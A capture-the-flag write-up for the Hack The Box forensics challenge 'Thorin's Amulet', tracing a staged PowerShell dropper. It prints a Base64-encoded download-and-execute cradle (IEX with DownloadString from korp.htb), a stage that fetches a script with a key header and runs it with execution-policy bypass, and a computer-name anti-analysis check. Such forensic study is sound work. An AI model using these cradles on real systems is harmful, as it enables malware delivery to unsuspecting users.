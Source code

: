 = Thorin's Amulet

Author:: 0x42697262
Category:: Forensics
Difficulty:: Very Easy
Play Date:: 2025/03/22 - 2025/03/25

[NOTE]
....
The challenge can be downloaded here: attachment::thorins-amulet/forensics_thorins_amulet.zip[forensics_thorins-amulet.zip]
....

== Overview

.Description
****
Garrick and Thorin’s visit to Stonehelm took an unexpected turn when Thorin’s old rival, Bron Ironfist, challenged him to a forging contest. In the end Thorin won the contest with a beautifully engineered clockwork amulet but the victory was marred by an intrusion. Saboteurs stole the amulet and left behind some tracks. Because of that it was possible to retrieve the malicious artifact that was used to start the attack. Can you analyze it and reconstruct what happened? Note: make sure that domain korp.htb resolves to your docker instance IP and also consider the assigned port to interact with the service.
****

This forensics challenge involves analyzing a Base64-encoded PowerShell "malware" script.
The script retrieves another script from a web URL protected by basic authentication.
Inside the downloaded script lies the actual malware code—our flag.

== Investigation

I opened `artifact.ps1` and immediately noticed a Base64-encoded string being executed with `powershell.exe -EncodedCommand`.  

[NOTE]
....
The source code of the script can be downloaded attachment:thorins-amulet/files/artifact.ps1[here].
....

As I do not like running scripts without checking them first, I opened the script in a text editor:

.artifact.ps1
[, powershell]
----
function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
}
qt4PO
----

=== Decoding the First Layer

Here's the relevant line:  

[, powershell]
----
powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
----

This suggests that the script is trying to execute a command encoded in *Base64*.  

Interestingly, the script contains a basic anti-analysis check:  

[, powershell]
----
if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
    exit
}
----

If the computer name isn’t `WORKSTATION-DM-0043`, the script terminates.
This is likely an attempt by the author to prevent execution on unintended machines.  

Since I was too lazy to open *CyberChef*, I extracted and decoded the Base64 string directly:  

[, bash]
----
cat artifact.ps1 | grep -Eo '"[A-Za-z0-9=/]+"' | tr -d \" | base64 -d
----

Explanation:

* `grep -Eo '"[A-Za-z0-9+/=]+"' artifact.ps1`  
** `-E`: Enables extended regular expressions.  
** `-o`: Outputs only the matched text, excluding surrounding content.  
** `"[A-Za-z0-9+/=]+"`: Matches a quoted Base64 string (Base64 consists of A-Z, a-z, 0-9, `+`, `/`, and `=` for padding).  
* `tr -d \"`  
** Removes double quotes from the matched Base64 string.  
* `base64 -d`  
** Decodes the extracted Base64 string.  

_However, a more robust approach would be to directly extract and decode the Base64 string in one step using `awk` and `base64 -d`_:

[, bash]
----
awk -F'"' '/EncodedCommand/ {print $2}' artifact.ps1 | base64 -d
----

But why is this better?

* Instead of searching for arbitrary quoted strings (grep method), it directly finds the EncodedCommand line.
* `awk -F'"' '{print $2}'` extracts only the content inside the quotes.
* More precise and avoids unintended matches.

This gave us:

[, powershell]
----
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")
----

So, the script is attempting to download another payload from `http://korp.htb/update` using PowerShell’s `DownloadString` method.  

=== Fetching the Second Script

[NOTE]
....
The source code of `update.ps1` can be downloaded attachment:thorins-amulet/files/update.ps1[here].
....

.update.ps1
[, powershell]
----
function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}
aqFVaq
----

In `update.ps1`, there is a function `aqFVaq`.

This function fetches another script from `http://korp.htb/a541a`, but this time it requires authentication via a custom HTTP header (`X-ST4G3R-KEY`).
Without this header, the request would fail.  

I used `curl` to manually download the script:  

[, bash]
----
curl http://korp.htb/a541a --header "X-ST4G3R-KEY:5337d322906ff18afedc1edc191d325d" -o a541a.ps1
----

Now, let’s check out `a541a.ps1`.  

== Reconstruction

[NOTE]
....
The source code of `a541a.ps1` can be downloaded attachment:thorins-amulet/files/a541a.ps1[here].
....

This is the entire `a541a.ps1` script:

.a541a.ps1
[, powershell]
----
$a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
($a35 -split "(..)" | ?{$_} | % {[char][convert]::ToInt16($_,16)}) -join ""
----

Notice that a hex-encoded string is assigned to the variable `$a35` and the variable gets decoded on the next line.

Since nothing is being executed dynamically here, it should be safe to decode.  

=== Decoding the Payload

Running it in PowerShell:  

[, powershell]
----
$ powershell a541a.ps1
HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}
----

**Hence, flag captured! 🎉**

If you do not trust the code or do not know how to read powershell scripts, it is completely okay to copy the encoded flag hex values into CyberChef.
